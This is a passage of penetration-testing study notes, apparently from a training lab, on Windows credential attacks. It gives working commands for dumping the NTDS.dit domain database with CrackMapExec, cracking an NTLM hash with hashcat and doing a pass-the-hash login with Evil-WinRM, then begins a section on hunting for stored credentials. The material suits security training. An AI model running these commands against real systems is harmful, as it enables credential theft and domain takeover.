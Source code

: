 ### Faster Extraction with CrackMapExec

```
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds

```

- Single command leverages VSS to capture and dump NTDS.dit
- Outputs username:hash pairs directly in terminal

## Utilizing Password Hashes

### Hash Cracking with Hashcat

```
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

```

- Mode 1000 for NTLM hashes
- Attempts to convert hashes to cleartext passwords

### Pass-the-Hash Attacks

- Uses NTLM authentication to authenticate with hash instead of password
- Format: `username:password hash`
- Example with Evil-WinRM:
    
    ```
    evil-winrm -i 10.129.201.57 -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
    
    ```
    
- Useful for lateral movement after initial compromise
- Requires no password cracking

# 10.Credential Hunting in Windows

## Scenario Context

- Process involves detailed searches across the file system and applications
- Example scenario: Gained RDP access to an IT admin's Windows 10 workstation

## Search Strategy

### Leveraging Search Features

- Most applications and OS have built-in search functionality
- Target search based on system usage context (e.g., IT admin daily tasks)
- Focus on files that might contain documented passwords or default credentials

### Effective Search Terms
